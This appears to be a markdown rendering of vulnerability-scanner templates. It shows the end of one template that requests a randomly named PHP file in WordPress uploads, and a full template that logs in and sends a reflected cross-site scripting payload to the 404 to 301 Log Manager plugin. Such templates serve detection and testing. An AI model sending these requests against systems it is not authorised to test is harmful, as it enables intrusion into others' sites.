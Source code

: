 ### Step - 2

```
GET /wp-content/uploads/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. fe394b60dc324c3bac3060d600ad4349

**Type - status**

- status
  1. 200

---

# WordPress 404 to 301 Log Manager \<3.1.2 - Cross-Site Scripting

## Description

- WordPress 404 to 301 Log Manager 3.1.2 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wpscan,wp-plugin,xss,wp,wordpress,authenticated

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=jj4t3-logs&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
